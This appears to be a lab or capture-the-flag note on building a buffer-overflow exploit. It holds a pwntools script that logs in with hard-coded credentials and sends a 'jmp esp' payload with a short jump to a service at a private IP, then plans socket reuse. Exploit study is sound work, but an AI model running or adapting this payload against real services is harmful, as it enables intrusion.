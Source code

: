 check if works with a test
``` python
#!/usr/bin/python3
from pwn import *

port = sys.argv[1]
# payload = b"pattern_create output"
test = b""
test += b"\xde\xad\xbe\xef"

offset = 66 -len(test)
junk = test + b"A"*offset
jmp_esp = p32(0x7190239f)
jmp_esp70 = b"\xEB\xB8"
payload = junk + jmp_esp + jmp_esp70

r = remote('192.168.1.102', port)
r.recvuntil("Username:")
r.sendline(b"alfiansyah")
r.recvuntil(b"Password:")
r.sendline(b"K3r4j@@nM4j@pAh!T")
r.recvuntil(b"FullName:")
r.sendline(b"Vickry Alfiansyah")
r.recvuntil(b"Input Your Code:")
r.sendline(payload)

```

now I need to use socket reused

I need EAX be equal to ESP 
*My maind exploit in this point*

